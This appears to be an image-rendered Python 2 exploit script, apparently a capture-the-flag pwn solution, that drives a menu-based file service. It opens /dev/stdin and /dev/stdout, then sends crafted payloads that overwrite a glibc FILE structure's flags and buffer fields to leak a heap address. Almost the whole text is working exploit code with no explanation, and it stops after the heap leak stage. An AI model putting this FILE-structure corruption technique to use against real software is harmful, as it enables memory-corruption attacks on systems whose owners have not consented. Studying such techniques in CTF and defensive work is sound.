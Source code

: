 ```
def writefile(idx):
    readuntil('choice: ')
    writeline('3')
    readuntil('Fileindex :')
    writeline(str(idx))

def closefile(idx):
    readuntil('choice: ')
    writeline('4')
    readuntil('Fileindex :')
    writeline(str(idx))

def _openfile(filename):
    sleep(2)
    writeline('1')
    sleep(2)    
    writeline(filename)
    sleep(2)   

def _readfile(idx, size):
    sleep(2)   
    writeline('2')
    sleep(2)   
    writeline(str(idx))
    sleep(2)   
    writeline(str(size))
    sleep(2)   

def _writefile(idx):
    sleep(2)   
    writeline('3')
    sleep(2)   
    writeline(str(idx))
    sleep(2)   

def _closefile(idx):
    sleep(2)   
    writeline('4')
    sleep(2)   
    writeline(str(idx))
    sleep(2)   

openfile("/dev/stdin")
openfile("/dev/stdout")

flags = 0xfbad3887
flags &= (~8)
flags |= 0x800
payload="A"*24+p64(0x231)+p32(flags)+p32(0)+p64(0)*13+p64(2)
readfile(0,len(payload))
sleep(2)
writeline(payload)
readfile(1,0)
payload2="B"*23+p64(0x231)+p32(flags)+p32(0)+p64(0)*3+'\x00'
readfile(0,len(payload2))
writeline(payload2)
closefile(1)
readuntil('\xad\xfb')
readlen(36)
buf=readlen(8)
heap=u64(buf)-0xf3
print "[LEAK] heap addr = ",hex(heap)
closefile(0)
```